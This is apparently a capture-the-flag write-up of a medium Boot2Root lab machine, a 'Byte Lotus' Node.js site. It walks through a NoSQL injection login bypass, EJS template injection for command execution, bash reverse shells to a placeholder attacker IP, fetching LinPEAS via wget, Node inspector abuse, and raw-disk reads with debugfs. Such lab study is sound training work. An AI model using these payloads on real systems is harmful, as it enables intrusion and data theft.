# Day 7 - Do Not Disturb

| Category  |Difficulty|
|:---------:|:--------:|
| Boot2Root |  Medium  |

**Skills learned:**
* Web server directory enumeration with Dirb
* Using Burp Suite to send manipulated requests and achieve SQLi
* EJS template injection to achieve RCE
* Privilege escalation path enumeration via LinPEAS
* Using raw disk permissions to read sensitive files

## Concierge Briefing
Sign's on the door. Room's active. You have access you were never given, and so does he.
The anomalies stop being anomalies: a session goes warm on a sunbed, and a stranger sits down in it, a wallet signs a transaction its owner didn't authorise, a shell on the beach answers back. And it becomes clear that whoever's already inside has been moving for far longer than you have.
The Byte Lotus poolside platform tracks every cabana, every sunbed, every warm session. Byte Lotus never forgets. Someone is already inside. Follow his footprints in, climb the way he climbed, and recover both flags.

## Today's Itinerary
* Find the user flag
* Find the root flag

## Initial Enumeration
We can start by running an Nmap scan against the machine: `nmap -sV -Pn -p- [MACHINE IP]`
```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-02 17:59 -0400
Nmap scan report for 10.67.165.241
Host is up (0.031s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Node.js (Express middleware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.72 seconds
```

We only have port **80** as an option to investigate further. Opening the web page `http://[MACHINE_IP]` brings us here:


Checking the page's source code did not provide any further clues.

I used [dirb](https://www.kali.org/tools/dirb/) to enumerate the server for other possible directories we can access: `dirb http://[MACHINE IP]`
```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Aug  2 18:16:19 2026
URL_BASE: http://10.67.165.241/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.67.165.241/ ----
+ http://10.67.165.241/logout (CODE:302|SIZE:23)                                                          
+ http://10.67.165.241/staff (CODE:403|SIZE:1547)                                                                   
-----------------
END_TIME: Sun Aug  2 18:18:06 2026
DOWNLOADED: 4612 - FOUND: 2
```

Navigating to the **/staff** directory leads us here:



Checking this page's source code also did not provide any further clues.

## Gaining a Foothold
I began trying to bypass the login page using Burp Suite, inserting SQL injection payloads from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master) into the login requests.

Use Burp to intercept a login request and send it to the tool's **Repeater**, editing the *username* and *password* fields.

After some trial and error, it appears that the server is vulnerable to **NoSQL Injection**. Using the manipluated request `username=attendant&password[$ne]=r`, we get a **302 found** response.



Looking at the response headers, we see **Set-Cookie** sets the value for a cookie named **connect.sid**. This cookie might provide us authentication to the Staff page.

Changing our GET request in Burp to now point to `GET /staff` including the new **connect.sid** cookie, we can see the staff console.



To access the page in our local web browser, we need to save the cookie. Open the browser's **Web Developer Tools**, then open **Storage > Cookies > http://[MACHINE IP]**. Clicking the **+** button allows us to create the new cookie. Enter the name and value we obtained from the server response.
```
Name: connect.sid
Value: s%3A1qlN8rIytqfLb5Gw8O58aCigVORWFxhD.xBIS5RDl2VEOaltSzIw1ruzn9BtZauEbAp%2FZWcxakLs
```



Now we can interact the the Staff page when opening: *http://[MACHINE IP]/staff* 

Looking at the Cabana desk, we see a confirmation template that uses EJS (Embedded JavaScript). The **<%= %>** tags can hold JavaScript that will execute as part of the template.

I had to research how to use EJS template injection to execute Linux commands, and had a successful PoC: `<%= process.mainModule.require('child_process').execSync('whoami') %>`.



After getting the command **whoami** to tell us we are currently the user **poolside**, I grabbed the user flag with a multipart command sequence: `cd ..; cd ..; cd home; cd poolside; cat user.txt`



## User Flag
**THM{w4rm_\*\*\*\*\*\*\*_\*\*\*\*\*\*\*}**

## Escalating Privileges
I used the same technique to spawn a reverse shell from the vulnerable machine to my Kali attacker VM. 

First start a netcat listener on the attacker VM using the command `nc -nlvp [LISTENING PORT]`. Then inject the Cabana Desk template with the code ` process.mainModule.require('child_process').exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/[ATTACKER IP]/[LISTENING PORT] 0>&1'")`, which should result in a reverse shell.



With shell access now, I began enumerating possible escalation paths using [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS).
To run LinPEAS on the vulnerable host, we need to:
1. Download LinPEAS locally
2. Serve the script on a web server
3. GET the script on the vulnerable host using wget
4. Execute the script on the remote host

Start by downloading the most recent release of **linpeas.sh** from [here](https://github.com/peass-ng/PEASS-ng/releases). Then serve this file on a local web server using the command `python -m http.server 80 `. In our reverse shell session, run these commands:
```
wget http://[ATTACKER IP]/linpeas.sh
chmod u+x linpeas.sh
./linpeas.sh
```



Reading through the full output of LinPEAS, we find a clue in the list of running processes:


We see `/usr/bin/node processor.js` being run with the flag **--inspect=127.0.0.1:9229** which tells us the *default Node.js inspector endpoint is here.* This endpoint will allow us to use debugging capabilities to escalate privileges.

We can connect to the inspector endpoint using the command `node inspect 127.0.0.1:9229`. Now we have the **debug>** prompt.



We can abuse this using a tactic similar to the EJS template injection step. Injecting yet another reverse shell payload should give us access as the new **pipelinesvc** user, who has been executing the **processor.js** script.

The payload I used was:
`exec("global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/[ATTACKER IP]/[LISTENING PORT] 0>&1\"')")`



While we aren't the root user, the **pipelinesvc** user has permissions that will allow access to the root flag. Retrieve the user's identity info using `id`.



Reading the output, we can see that pipelinesvc is part of the **disk** group. Researching what users of this group can do, we see:
```
Users belonging to the built-in disk group in Linux have direct read and write access to raw block devices (such as /dev/sda or /dev/nvme0n1). Because they can bypass the filesystem layout and directly interact with raw storage bytes, they can effectively execute any command that operates directly on disk drives without needing sudo.

Security Warning: The disk group is heavily restricted in modern distributions because it carries the equivalent of root privileges. Anyone in this group can bypass file system security entirely, read /etc/shadow directly from raw sectors, or completely destroy the system data.
```

Now we must use our *disk* permissions to read the contents of the root flag. We can start by listing all the storage drives and their partitions with `lsblk`:



We've fouund the disk partition **nvme0n1p1**, so let's pivot there. Open an interactive file system debugger to start looking around in the file system: `debugfs /dev/nvme0n1p1`.

Starting with an example command `ls -l`, we can try listing the contents of the current directory:



From here I changed to the /root directory and read the root flag: `cat /root/root.txt`.

## Root Flag
**THM{r4w_d1sk_\*\*\*\*\*\*_\*\*\*_\*\*\*_\*\*\*\*}**